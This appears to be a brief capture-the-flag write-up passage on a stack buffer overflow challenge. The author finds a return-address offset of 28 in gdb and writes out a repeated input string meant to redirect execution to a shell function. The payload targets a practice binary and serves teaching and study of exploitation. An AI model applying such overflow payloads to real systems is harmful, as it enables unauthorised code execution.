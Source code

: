 I couldn't do it without source code, so i look at this:

![source](screenshots/source.png)

In gdb i watched the stack all times with different strings and offset like `("A"*12 +"\x01\n")*offset` and then i calculated the offset. It equals to 28 for setting return address to shell function address. But we need to put first characters of the strings. So it looks like `("A"*12 + "\x01\n" + "B"*12 + "\x01\n" + "C"*12 + "\x01\n" + "D" + "\x01\n")*6 + "A"*12 + "\x01\n" + "B"*12 + "\x01\n" + "C"*12 + "\x01\n" + "D"*12 + "\x09\n"`:

![payload](screenshots/payload.png)
